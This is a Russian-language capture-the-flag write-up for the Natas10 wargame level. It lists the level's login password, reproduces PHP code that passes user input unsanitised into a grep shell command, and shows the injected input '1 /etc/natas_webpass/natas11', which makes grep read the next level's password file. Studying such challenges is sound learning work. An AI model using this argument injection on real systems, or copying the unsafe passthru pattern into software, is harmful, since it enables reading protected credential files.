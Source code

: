 Natas10

login:natas10
password:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

1)На главной странице есть поле ввода через которое мы можем осуществлять поиск. Так же написано что есть фильтрация некоторых символов.
Есть возможность посмотреть исходный код (View sourcecode)
![изображение](https://user-images.githubusercontent.com/54982244/173180066-8aea2f86-699f-4a28-983b-9a2263065240.png)


2)В исходном коде видим такой код


    <?
    $key = "";

    if(array_key_exists("needle", $_REQUEST)) {
        $key = $_REQUEST["needle"];
    }

    if($key != "") {
        if(preg_match('/[;|&]/',$key)) {
            print "Input contains an illegal character!";
        } else {
            passthru("grep -i $key dictionary.txt");
        }
    }
    ?>
Видно что функция preg_match фильтрует такие символы как ;|& ,поэтому не получится использовать ; для объединения нескольких bash команд. 

3)С помощью grep можно осуществлять поиск сразу по нескольким файлам, мы знаем что все пароли хранятся в /etc/natas_webpass/natas, 
в нашем случае пароль должен находится в /etc/natas_webpass/natas11. Если мы отправим 1 /etc/natas_webpass/natas11 в поле ввода, наш итоговый запрос превратится в

    grep -i 1 /etc/natas_webpass/natas11 dictionary.txt 
    
Утилита grep будет искать цифру 1 в 2 файлах, /etc/natas_webpass/natas11 и dictionary.txt и если цифра 1 присутствует в нашем пароле то он вернется, если нет
то будет необходимо перебирать символы.
Нам повезло и цифра 1 присутствует в парооле.
![изображение](https://user-images.githubusercontent.com/54982244/173180209-4962064b-bde5-4701-a274-7049dad25d84.png)

